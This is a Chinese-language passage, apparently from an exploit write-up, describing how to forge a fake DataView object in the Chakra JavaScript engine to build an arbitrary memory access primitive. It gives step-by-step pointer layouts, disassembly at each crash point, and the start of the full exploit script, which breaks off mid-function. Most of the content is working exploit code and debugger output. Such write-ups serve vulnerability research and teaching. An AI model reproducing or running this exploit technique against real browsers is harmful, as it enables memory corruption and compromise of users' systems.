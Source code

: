 前面我们设置Type Object指针时是直接置的零，所以会导致空指针访问，这里需要为Type Object寻找一个合适的值。<br>
目前我们手中拥有的是伪造的fake DataView对象的地址，但是合法的DataView类型的Type Object指针是没有的。比较容易想到的方法是泄漏或者猜测合法的Type Object地址。<br>
但是这里比较巧妙的是选择利用fake DataView的空白区域来构造一个fake DataView，前面在构造fake DataView的时候我们看到了其中有很多空白区域实际上是用不到的。

[![](https://p0.ssl.qhimg.com/t014de0428ced132baf.png)](https://p0.ssl.qhimg.com/t014de0428ced132baf.png)

在fake DataView的第三项布置一个fake typeId，然后把第二项的TypeObject指针指向第三项

```
TypeIds_DataView = 56

//第三项 fake typeId
fake_object[4]=56; fake_object[5]=0;

//第二项 TypeObject 指针
fake_object[2]=base_low+0x68; fake_object[3]=base_high;
```

之后，又遇到第二个问题，代码中存在这样的访问

```
dataview-&gt;type-&gt;javascriptLibrary

00007FF8A0C5E25C  mov         rax,qword ptr [rbx+8]  //rax=type object
00007FF8A0C5E260  mov         rcx,qword ptr [rax+8]  //JavascriptLibrary
```

上一步中构造中，我们是把Type Object指向了第三项，那么javascriptLibrary就是第四项，此时为零。代码中javascriptLibrary的值不会真正起作用，但是这个指针必须合法，否则访问时就Crash了。这里我们可以随意找一块空白内存来安放fake javascriptLibrary。

```
//第四项 JavascriptLibrary
fake_object[6]=base_low+0x58-0x430; fake_object[7]=base_high;
```

继续运行，接下来，程序又会Crash在这个地方，发现取的是第六项也就是arraybuffer的指针

```
00007FF8A0C5E264  mov         rax,qword ptr [rbx+28h]  //arraybuffer
00007FF8A0C5E268  mov         rcx,qword ptr [rcx+430h]
00007FF8A0C5E26F  cmp         byte ptr [rax+3Ch],0  //isDetached
```

前面我们把第六项置零，这里需要对这个值进行访问，并且会检测其中的isDetached域。<br>
如果isDetached为1，那么说明DataView不可用。幸运的是arraybuffer中其他的域不会被使用到，所以我们可以找到一块为0的内存，把这里的arraybuffer指向这块空白的内存使得isDetached为零即可绕过。

```
fake_object[10]=base_low+0x58-0x40; fake_object[11]=base_high;
```

到这里我们再使用fake DataView就可以发现程序不会再发生crash，能够正常的使用来操作数据了，到此我们的DataView伪造也就完成了。<br>
概括这一系列操作就是在伪造DataView时，如何构造数据来满足代码的访问。

完整的利用代码如下

```
var fake_object = new Array(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0);

var tmp = new ArrayBuffer(16);
var obj = new DataView(tmp);
var arr =[1.1,2.2];
var f64 = new Float64Array(1);
var i32 = new Int32Array(f64.buffer);

function opt(f,arr)`{`
    arr[0] = 1.1;
    arr[1] = 'a'.replace('a',f)|0;
    f64[0] = arr[0];
    //000001801D7011B4  mov         rcx,qword ptr [rax+38h]  
```